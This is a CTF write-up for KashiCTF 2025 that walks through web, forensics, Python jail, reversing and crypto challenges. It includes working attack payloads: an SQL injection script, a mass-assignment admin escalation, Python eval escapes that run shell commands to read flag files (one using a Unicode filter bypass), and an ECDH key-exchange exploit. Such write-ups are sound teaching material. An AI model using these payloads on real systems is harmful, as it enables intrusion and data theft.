

## KashiCTF 2025
So today, i just played CTF event with `TCP1P`, and we play on Kashi CTF.


We got position on 45/709 teams.

KashiCTF is CTF event organized by `IIT(BHU)CyberSec`, it is University from India, Banaras Hindu University. They created many chall categories, Webex, Reversing, Binex, Osint, Forensic, and Crypto. 

from all those chall, i managed to solved 2 Webex, 5 Foren, 2 Jail, 2 Rev and 2 Crypto.


and this is my write-up
## Web Exploitation
### SuperFastAPI
###### Desc: Made my verty first API! However I have to still integrate it with a frontend so can't do much at this point lol.
we got a web service, and this the looks like


there is no front end/UI literally, pure just fetching from API.
and of course there is no source code, and i decided to find the active directory
#### Solver

we got the endpoint on `/docs`, this is the UI looks like


as you can see, there is '/flag', but we need to make account first, after make account, if u try to get the flag, the output will like this
 

it says "only for admin", how can i get the admin role? yes, by updating ur user


and tried to add role variable, and fill it with admin


then go back to '/flag', and execute


Flag: `KashiCTF{m455_4551gnm3n7_ftw_iYTjzfu4Z}`

### Corporate Life 1
###### Desc: The Request Management App is used to view all pending requests for each user. It’s a pretty basic website, though I heard they were working on something new. Anyway, did you know that one of the disgruntled employees shared some company secrets on the Requests Management App, but it's status was set denied before I could see it. Please find out what it was and spill the tea!
We got only web service, and i started by looking for anything interesting on the application initiallty, but could not find any information

I looked at the network tab and investigated the `_buildManifest.js`
```js
self.__BUILD_MANIFEST=function(e,r,s){return{__rewrites:{afterFiles:[],beforeFiles:[],fallback:[]},__routerFilterStatic:{numItems:0,errorRate:1e-4,numBits:0,numHashes:null,bitArray:[]},__routerFilterDynamic:{numItems:0,errorRate:1e-4,numBits:e,numHashes:null,bitArray:[]},"/":["static/chunks/pages/index-6413244cd5618b98.js"],"/_error":["static/chunks/pages/_error-fde50cb7f1ab27e0.js"],"/v2-testing":["static/chunks/pages/v2-testing-fb612b495bb99203.js"],sortedPages:["/","/_app","/_error","/v2-testing"]}}(0,0,0),self.__BUILD_MANIFEST_CB&&self.__BUILD_MANIFEST_CB();
```
Inside is the `/v2-testing` endpoint, which reveals a new page with a filter

In this `filter` is an SQLi vulnerability, using ' OR 1=1 OR ' results in printing all entries in the table and reveals the flag

#### Solver
```py
import httpx

base_url = "http://kashictf.iitbhucybersec.in:19383"

payload = {"filter": "' OR 1=1 -- "}
response = httpx.post(base_url + "/api/list-v2", json=payload)
print(response.text)
```

Flag: `KashiCTF{s4m3_old_c0rp0_l1f3_COAv46HU}`

## Digital Forensic
### Memories Bring Back
###### Desc: A collection of images, a digital time capsule—preserved in this file. But is every picture really just a picture? A photographer once said, “Every image tells a story, but some stories are meant to stay hidden.” Maybe it’s time to inspect the unseen and find what’s been left behind.
we got a file, when i checked it


then i tried to check the partition


as you can see, then i switch to use FTK Imager


there is 3 directory in partition 1, and when u get into root directory, u will see...


those all files looks so suspicious


there is hidden file .txt in img file, but its fake flag tho, but then i tried the last one, and i got the flag
#### Solver


Flag: `KashiCTF{DF1R_g03555_Brrrr}`

### Corruption
###### Desc: A corrupt drive I see...
this is easy foren, we can just strings it then grep it
#### Solver
```bash
strings image.iso  | grep Kashi
```

Flag `KashiCTF{FSCK_mE_B1T_by_b1t_Byt3_by_byT3}`

### SNOWy Evening
###### Desc: A friend of mine , Aakash has gone missing and the only thing we found is this poem...Weirdly, he had a habit of keeping his name as the password.
so i got a .txt file, but its show nothing interest when i cat'ed it, but then i got this

its hint for stegsnow (is also in the title)
#### Solver
```bash
stegsnow -p Aakash -C poem.txt
```

then open the pastebin

after searching for a hour, i finally i got the decoder, its `COW Esolang`!!

Flag: `KashiCTF{Love_Hurts_5734b5f}`

### Restaurant
###### Desc: I just asked for my favourite pasta and they gave me this. Are these guys STUPID? Maybe in the end they may give me something real. (Wrap the text in KashiCTF{})
so i got pics of pasta, and after searching for smth for a hour, i got nothing, so i just check the hex

```bash
0000b750: 28bf ffd9 baab aaab bbaa baab abba baba  (...............
0000b760: aaab aaba aaaa abaa baaa aaab aaaa aaaa  ................
0000b770: baba abab aaba baab abab abba aaab aabb  ................
0000b780: abab baba baab abaa aabb aaaa bba0       ..............
```
it is looks like bacon cipher, and i decoded it
#### Solver

Flag: `KashiCTF{THEYWEREREALLLLYCOOKING}`

### Look at me
###### Desc: There is something wrong with him.. What can it be??
so i got a image


#### Solver
and yea after i reverse image search it, it shows about `SilentEye`, it is steganography tools, and just decode to get the flag

Flag: `KashiCTF{K33p_1t_re4l}`

## Jail
### Easy Jail
###### Desc: I made this calculator. I have a feeling that it's not safe :(
so i got the source code of the netcat service
```py
#!/usr/bin/env python3

print("           _            _       _             ")
print("          | |          | |     | |            ")
print("  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ ")
print(" / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|")
print("| (_| (_| | | (__| |_| | | (_| | || (_) | |   ")
print(" \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   ")

def calc(op):
	try : 	
		res = eval(op)
	except :
		return print("Wrong operation")
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```
there is function eval(op) that will execute our input, and there is no filtering before, so we can exploit it, and this is the payload
#### Solver
```py
__import__('os').system('cat /flag.txt')
```

Flag: `KashiCTF{3V4L_41NT_54F3_53wQLCc7}`

### Easy Jail 2
###### Desc: I made a completely secure calculator this time.
Looking at the jail (compared to the previous) restricts words (such as import), our previous solution `__import__('os').system('cat ../flag.txt')` no longer worked due to import
#### Solver
But we can use a unicode bypass.
I make the following payload: 
```py
__𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
```
Service:
```bash
$ nc kashictf.iitbhucybersec.in 56261                                                                                                                                                                                                                                                                                 130 ↵
           _            _       _             
          | |          | |     | |            
  ___ __ _| | ___ _   _| | __ _| |_ ___  _ __ 
 / __/ _` | |/ __| | | | |/ _` | __/ _ \| '__|
| (_| (_| | | (__| |_| | | (_| | || (_) | |   
 \___\__,_|_|\___|\__,_|_|\__,_|\__\___/|_|   
>> __𝘪𝘮𝘱𝘰𝘳t__('os').system('cat ../flag.txt')
KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}
```
Flag: `KashiCTF{C4N_S71LL_CL3AR_8L4CKL15T_ewBkDkyO}`

## Reverse Engineering
### Game 1 - Untitled Game
###### Desc: We made a game.
so we got a file of game, it shows nothing when i try to play it, but i got it by only using `grep` (lol)
#### Solver


Flag: `KashiCTF{N07_1N_7H3_G4M3}`

### Game 3 - CatSeabank
###### Desc: We made a game.
It is a Unity game (seen from booting it) initially tried using CheatEngine to mess with the money but was a dead end

I use AssetRipper to extract all the file in the exe, and i got file named `flagfile` and it is audio


Listening to it I identify its likely a spectrogram, I then use an online spectrogram visualiser with the file and see the flag


Flag: `KashiCTF{1t_Wa5_Ju5t_4_Tutori4l_RIP}`
## Cryptography
### Lost Frequencies
###### Desc: Zeroes, ones, dots and dashes. Data streams in bright flashes. 111 0000 10 111 1000 00 10 01 010 1011 11 111 010 000 0
this is easiest chall, dawg, and ye ofc it was morse code, just decrypt it 
#### Solver

Flag: `KashiCTF{OHNOBINARYMORSE}`

### Key Exchange (Up-Solve)
###### Desc: Someone wants to send you a message. But they want something from you first.
so i got nc service and source of the service
```py
from redacted import EllipticCurve, FLAG, EXIT
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
import hashlib
import random
import json
import os

def encrypt_flag(shared_secret: int):
    sha1 = hashlib.sha1()
    sha1.update(str(shared_secret).encode("ascii"))
    key = sha1.digest()[:16]
    iv = os.urandom(16)
    cipher = AES.new(key, AES.MODE_CBC, iv)
    ciphertext = cipher.encrypt(pad(FLAG, 16))
    data = {}
    data["iv"] = iv.hex()
    data["ciphertext"] = ciphertext.hex()
    return json.dumps(data)

#Curve Parameters (NIST P-384)
p = 39402006196394479212279040100143613805079739270465446667948293404245721771496870329047266088258938001861606973112319
a = -3
b = 27580193559959705877849011840389048093056905856361568521428707301988689241309860865136260764883745107765439761230575
E = EllipticCurve(p,a,b)
G = E.point(26247035095799689268623156744566981891852923491109213387815615900925518854738050089022388053975719786650872476732087,8325710961489029985546751289520108179287853048861315594709205902480503199884419224438643760392947333078086511627871)

n_A = random.randint(2, p-1)
P_A = n_A * G

print(f"\nReceived from Weierstrass:")
print(f"   Here are the curve parameters (NIST P-384)")
print(f"   {p = }")
print(f"   {a = }")
print(f"   {b = }")
print(f"   And my Public Key: {P_A}")

print(f"\nSend to Weierstrass:")
P_B_x = int(input("   Public Key x-coord: "))
P_B_y = int(input("   Public Key y-coord: "))

try:
    P_B = E.point(P_B_x, P_B_y)
except:
    EXIT()

S = n_A * P_B

print(f"\nReceived from Weierstrass:")
print(f"   Message: {encrypt_flag(S.x)}")
```
So basically, we send Sent G as the public key to force the shared secret to be the server’s public key then we derive the AES key using SHA-1 on the server’s public key x-coordinate we get the plaintext with a hint (key) which is just Vigenère_Decode then we get the flag
#### Solver
```py
import hashlib
import json
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

server_pubkey_x = 32276094079778603912447006774425965370208708762852528444483628195478772222814766395366686755033025326139592318530898
iv_hex = "516c0101c0de64e33296a4cd8124ece4"
ciphertext_hex = "236923709625fe2fb1e7bbf922e426fa0ba31bfd46705df7c6683dc78053d2c3e20a4216665c1f3b9991edc6056773024a45e1d562dd2b2edea247a02ddcc4d4802efa25185746e509d223eef848b9b421fc57422c333396fc6f8542a4259ca3"

sha1 = hashlib.sha1()
sha1.update(str(server_pubkey_x).encode("ascii"))
key = sha1.digest()[:16] 
iv = bytes.fromhex(iv_hex)
ciphertext = bytes.fromhex(ciphertext_hex)

cipher = AES.new(key, AES.MODE_CBC, iv)
flag = unpad(cipher.decrypt(ciphertext), 16)

print("Decrypted Flag:", flag.decode())
```
and this is the full automated script:
```py
from pwn import *
import hashlib
import json
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

# Server details
HOST = "kashictf.iitbhucybersec.in"
PORT = 50742

# NIST P-384 Generator (Hardcoded in server)
G_x = 26247035095799689268623156744566981891852923491109213387815615900925518854738050089022388053975719786650872476732087
G_y = 8325710961489029985546751289520108179287853048861315594709205902480503199884419224438643760392947333078086511627871

# Start connection using Pwntools
io = remote(HOST, PORT)
print("[+] Connected to", HOST, PORT)

# Receive the server's public key
data = io.recvuntil(b"And my Public Key: ").decode()
server_pubkey = io.recvline().decode().strip()

# Extract x-coordinate of the server's public key
server_pubkey_x = int(server_pubkey.split(",")[0][1:])  # Remove brackets

print(f"[+] Server Public Key X: {server_pubkey_x}")

# Send the generator G as our public key
io.sendline(str(G_x).encode())
io.sendline(str(G_y).encode())
print("[+] Sent Generator G as public key.")

# Receive the encrypted flag message
data = io.recvuntil(b"Message: ").decode()
flag_json = io.recvline().decode().strip()

# Extract IV and ciphertext
json_data = json.loads(flag_json)
iv = bytes.fromhex(json_data["iv"])
ciphertext = bytes.fromhex(json_data["ciphertext"])

# Derive AES key using SHA-1 of server's public key x-coordinate
sha1 = hashlib.sha1()
sha1.update(str(server_pubkey_x).encode("ascii"))
key = sha1.digest()[:16]

# Decrypt the flag
cipher = AES.new(key, AES.MODE_CBC, iv)
flag = unpad(cipher.decrypt(ciphertext), 16)

print("\n[+] Decrypted Flag:", flag.decode())

io.close()
```
Output:
```bash
Decrypted Flag: NaeusGRX{L_r3H3Nv3h_kq_Sun1Vm_O3w_4fg_4lx_1_t0d_a4q_lk1s_X0hcc_Dd4J_sxIZk83R}

Hint: DamnKeys
```
decode it with vig cipher

Flag: `KashiCTF{I_r3V3Al3d_my_Pub1Ic_K3y_4nd_4ll_1_g0t_w4s_th1s_L0usy_Fl4G_slVPg83T}`
